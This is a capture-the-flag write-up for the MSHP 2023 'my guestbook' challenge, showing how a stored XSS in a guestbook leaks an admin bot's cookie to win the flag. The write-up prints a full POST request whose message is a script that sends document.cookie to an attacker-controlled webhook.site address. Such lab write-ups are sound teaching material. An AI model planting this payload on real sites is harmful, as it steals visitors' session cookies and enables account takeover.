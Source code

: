 # MSHP 2023 - [1] my guestbook  

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023  
**Challenge name:** [1] my guestbook  
**Challenge description:**  
> Someone wrongly implemented a security mechanism of cookies. Try to receive it, and then... see what needs to be done.  
> UPDATE:  
> Admin logs in every full hour! Also, there is also new hint!  

**Challenge URL:** http://ctf.securitum.ninja/ctfY/  
**Challenge category:** websec/persistentXSS  
**Challenge points:** 100  

* * *  

## Steps to solve  
The website we were presented with consisted of title header, login form, comment-adding form and of course list of comments (oldest first):  
![website.png](../_resources/website.png)  

Whenever you pressed "Submit" button, the contents of message input box were sent and appended to the bottom of guestbook.  

> My thought at the time:  
> If there is no form validation present, then we could perform *persistent XSS attack*.  

I intercepted POST request with *Burp Suite*, so that I could manipulate the message content and repeat the request.  

> Why did I think about creating own POST with Burp?  
> Oh, that was necessary, because at the time website form accepted input of 3-character long strings only (probably one of the participants made this change to make the challenge harder for everybody else)  
> POST allowed me to send longer (than 3-chars) messages  

But what did I intend to do exactly? The challenge description said something about cookies, and header subtext mentioned comments being read every full hour, so... let's find out what owner's cookies look like! *webhook.site* was very helpful to do *admin session leakage* as it served as endpoint under my own control, meaning I could read incoming requests.  

First I intercepted POST request with safe message payload, to then manipulate it with my own malicious code:  
```http  
POST /ctfY/ HTTP/1.1  
Host: ctf.securitum.ninja  
Content-Length: 149  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
Origin: http://ctf.securitum.ninja  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Referer: http://ctf.securitum.ninja/ctfY/  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Connection: close  

message=<script>fetch('https://webhook.site/e4c3c9cc-fa48-4865-801c-22cbc4d25eab',+{+method:+'POST',+mode:+'no-cors',+body:+document.cookie+});</script>  
```  

I checked the website source code, and my payload was sucessfully attached in comments section - now it was time to wait.   
As you can already imagine - whenever the admin would refresh the site, he would fetch my *webhook.site* link with his admin cookie attached.  

And indeed, at the nearest full hour - the response came:  
![response.png](../_resources/response.png)  

```  
flag=MSHP_%7BSGwP%3D7Z%40%26jJcVz%23%7D  
```  

Which after URL decoding (with *urldecoder.io* or *CyberChef*), resulted in:   
**FLAG:** MSHP_{SGwP=7Z@&jJcVz#}  

## Additional comments  
It was hard at first to understand what functionality was intended by organizers, and what behaviour was added by the participants. As the assumption of no form validation was true, thus everybody could change website behaviour and looks the way they wanted to.  

Also, even though the website had no cookies present (in non-authenticated session), other participants created false flags there, to mislead their competitors - guiding in wrong direction.